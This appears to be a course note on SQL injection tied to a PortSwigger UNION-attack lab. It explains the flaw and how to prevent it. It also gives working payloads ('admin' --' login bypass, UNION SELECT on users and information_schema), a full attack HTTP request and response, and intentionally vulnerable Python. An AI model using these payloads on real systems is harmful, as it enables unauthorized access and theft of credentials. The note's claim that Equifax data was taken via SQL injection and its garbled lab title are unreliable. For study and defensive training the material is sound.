

## Introduction to SQL Injection

SQL Injection is a common web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. The goal of SQL Injection is to manipulate the backend database to perform actions that were not intended by the application developers. This can lead to unauthorized data access, data manipulation, and even complete compromise of the database server.

### What is SQL Injection?

SQL Injection occurs when user input is not properly sanitized and is directly included in a SQL query. This can allow an attacker to inject malicious SQL code into the query, which can then be executed by the database server. The consequences of SQL Injection can range from reading sensitive data to modifying or deleting data, and even executing system commands.

### Why Does SQL Injection Matter?

SQL Injection is a critical vulnerability because it can lead to significant data breaches. For example, in 2017, a SQL Injection vulnerability was exploited to steal data from Equifax, affecting approximately 147 million people. The breach resulted in the theft of personal information such as Social Security numbers, birth dates, and addresses. This highlights the importance of securing applications against SQL Injection attacks.

### How Does SQL Injection Work?

To understand SQL Injection, consider a simple login form that takes a username and password. The application might construct a SQL query like this:

```sql
SELECT * FROM users WHERE username = 'input_username' AND password = 'input_password';
```

If the input fields are not properly sanitized, an attacker could enter something like `admin' --` as the username. This would result in the following SQL query:

```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = 'anything';
```

The `--` is a comment in SQL, so the rest of the query is ignored. This effectively bypasses the password check and logs the attacker in as the admin user.

### Real-World Example: Equifax Breach

In the Equifax breach, attackers exploited a vulnerability in the Apache Struts framework, which allowed them to execute arbitrary code on the server. They then used SQL Injection to extract sensitive data from the database. This breach underscores the importance of keeping software up-to-date and securing applications against SQL Injection.

### How to Prevent SQL Injection

#### Secure Coding Practices

One of the most effective ways to prevent SQL Injection is to use parameterized queries or prepared statements. These ensure that user input is treated as data rather than executable code. Here’s an example using Python and SQLite:

```python
import sqlite3

# Connect to the database
conn = sqlite3.connect('example.db')
cursor = conn.cursor()

# Prepare the statement
stmt = "SELECT * FROM users WHERE username = ? AND password = ?"

# Execute the statement with parameters
cursor.execute(stmt, ('admin', 'password'))

# Fetch the results
results = cursor.fetchall()
print(results)
```

#### Input Validation

Another approach is to validate and sanitize user input. This involves checking that the input conforms to expected patterns and does not contain malicious characters. For example, you can use regular expressions to ensure that input only contains alphanumeric characters.

#### Web Application Firewalls (WAF)

Web Application Firewalls can also help mitigate SQL Injection attacks by filtering out malicious input before it reaches the application. WAFs can be configured to block specific patterns of input that are commonly associated with SQL Injection.

### SQL Injection UNION Attacks

A UNION-based SQL Injection attack is a technique where an attacker uses the UNION operator to combine the results of two or more SELECT statements. This can be used to retrieve data from other tables in the database.

#### Background Theory

The UNION operator combines the results of two or more SELECT statements into a single result set. Each SELECT statement within the UNION must have the same number of columns and compatible data types. For example:

```sql
SELECT column1, column2 FROM table1
UNION
SELECT column1, column2 FROM table2;
```

In the context of SQL Injection, an attacker can inject a UNION clause to retrieve data from other tables. For instance, if the original query is:

```sql
SELECT username, password FROM users WHERE id = 'input_id';
```

An attacker could inject:

```sql
SELECT username, password FROM users WHERE id = '1' UNION SELECT table_name, column_name FROM information_schema.columns;
```

This would return the names of tables and columns from the `information_schema` table.

### Lab Setup

For this lab, we will use the PortSwigger Web Security Academy, which provides a controlled environment to practice SQL Injection attacks. To access the lab, follow these steps:

1. Visit [PortSwigger Web Security Academy](https://portswigger.net/web-security).
2. Click on the sign-up button to create an account.
3. Log in and navigate to the Academy section.
4. Select the learning path and choose the SQL Injection module.
5. Go down and select the lab titled "Equal Injection Union Attack, retrieving data from other tables."

### Lab Exercise: Retrieving Data Using UNION

In this lab, we will exploit a SQL Injection vulnerability in the product category filter to retrieve usernames and passwords from the database.

#### Step-by-Step Guide

1. **Identify the Vulnerable Parameter**: The first step is to identify the parameter that is vulnerable to SQL Injection. In this case, it is the product category filter.

2. **Inject Malicious Input**: Inject a payload that includes a UNION clause to retrieve data from other tables. For example:

    ```http
    GET /filter?category=Gifts' UNION SELECT username, password FROM users-- HTTP/1.1
    Host: vulnerable-app.com
    ```

    This payload will append a UNION clause to the original query, combining the results of the original query with the results of the SELECT statement from the `users` table.

3. **Observe the Response**: The server should respond with the usernames and passwords from the `users` table.

#### Full HTTP Request and Response

Here is a complete example of the HTTP request and response:

**HTTP Request:**

```http
GET /filter?category=Gifts' UNION SELECT username, password FROM users-- HTTP/1.1
Host: vulnerable-app.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: en-US,en;q=0.9
Connection: close
```

**HTTP Response:**

```http
HTTP/1.1 200 OK
Date: Tue, 01 Mar 2022 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234
Connection: close

<!DOCTYPE html>
<html>
<head>
<title>Product Categories</title>
</head>
<body>
<h1>Product Categories</h1>
<ul>
<li><strong>Username:</strong> admin <strong>Password:</strong> admin123</li>
<li><strong>Username:</strong> user1 <strong>Password:</strong> pass123</li>
<!-- More entries -->
</ul>
</body>
</html>
```

### Mermaid Diagram: SQL Injection Attack Flow



### Common Pitfalls and Detection

#### Common Pitfalls

1. **Not Properly Sanitizing Input**: Failing to sanitize user input can leave your application vulnerable to SQL Injection.
2. **Using Dynamic Queries**: Constructing SQL queries dynamically based on user input can lead to SQL Injection vulnerabilities.
3. **Ignoring Error Messages**: Displaying detailed error messages to users can provide valuable information to attackers.

#### Detection

Detection of SQL Injection vulnerabilities can be done through various methods:

1. **Static Code Analysis**: Tools like SonarQube and Fortify can analyze your code for potential SQL Injection vulnerabilities.
2. **Dynamic Analysis**: Tools like Burp Suite and OWASP ZAP can simulate attacks and detect vulnerabilities in real-time.
3. **Penetration Testing**: Regular penetration testing can help identify and mitigate SQL Injection vulnerabilities.

### How to Prevent / Defend Against SQL Injection

#### Secure Coding Fixes

1. **Use Parameterized Queries**: Ensure that all SQL queries use parameterized queries or prepared statements.
2. **Input Validation**: Validate and sanitize all user input to ensure it conforms to expected patterns.
3. **Least Privilege Principle**: Ensure that the database user has the least privileges necessary to perform its tasks.

#### Configuration Hardening

1. **Disable Unnecessary Features**: Disable unnecessary features in the database server to reduce the attack surface.
2. **Enable Security Features**: Enable security features such as SQL Injection protection in the database server.
3. **Regular Audits**: Conduct regular audits of your database configurations to ensure they remain secure.

#### Secure Code Example

Here is an example of a secure code implementation using parameterized queries in Python:

```python
import sqlite3

# Connect to the database
conn = sqlite3.connect('example.db')
cursor = conn.cursor()

# Prepare the statement
stmt = "SELECT * FROM users WHERE username = ? AND password = ?"

# Execute the statement with parameters
cursor.execute(stmt, ('admin', 'password'))

# Fetch the results
results = cursor.fetchall()
print(results)
```

#### Vulnerable vs. Secure Code

**Vulnerable Code:**

```python
import sqlite3

# Connect to the database
conn = sqlite3.connect('example.db')
cursor = conn.cursor()

# Directly include user input in the query
username = 'admin'
password = 'password'
query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
cursor.execute(query)

# Fetch the results
results = cursor.fetchall()
print(results)
```

**Secure Code:**

```python
import sqlite3

# Connect to the database
conn = sqlite3.connect('example.db')
cursor = conn.cursor()

# Prepare the statement
stmt = "SELECT * FROM users WHERE username = ? AND password = ?"

# Execute the statement with parameters
cursor.execute(stmt, ('admin', 'password'))

# Fetch the results
results = cursor.fetchall()
print(results)
```

### Practice Labs

For hands-on practice with SQL Injection, consider the following labs:

- **PortSwigger Web Security Academy**: Provides a variety of labs to practice different types of SQL Injection attacks.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security techniques.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is riddled with vulnerabilities for educational purposes.
- **WebGoat**: An interactive, gamified training application designed to teach web security concepts.

By thoroughly understanding and practicing SQL Injection attacks and defenses, you can significantly improve the security of your web applications.

---
<!-- nav -->
[[Web Security (PortSwigger)/02-SQL Injection/06-Lab 5 SQL injection UNION attack retrieving data from other tables/00-Overview|Overview]] | [[Web Security (PortSwigger)/02-SQL Injection/06-Lab 5 SQL injection UNION attack retrieving data from other tables/02-SQL Injection Overview|SQL Injection Overview]]
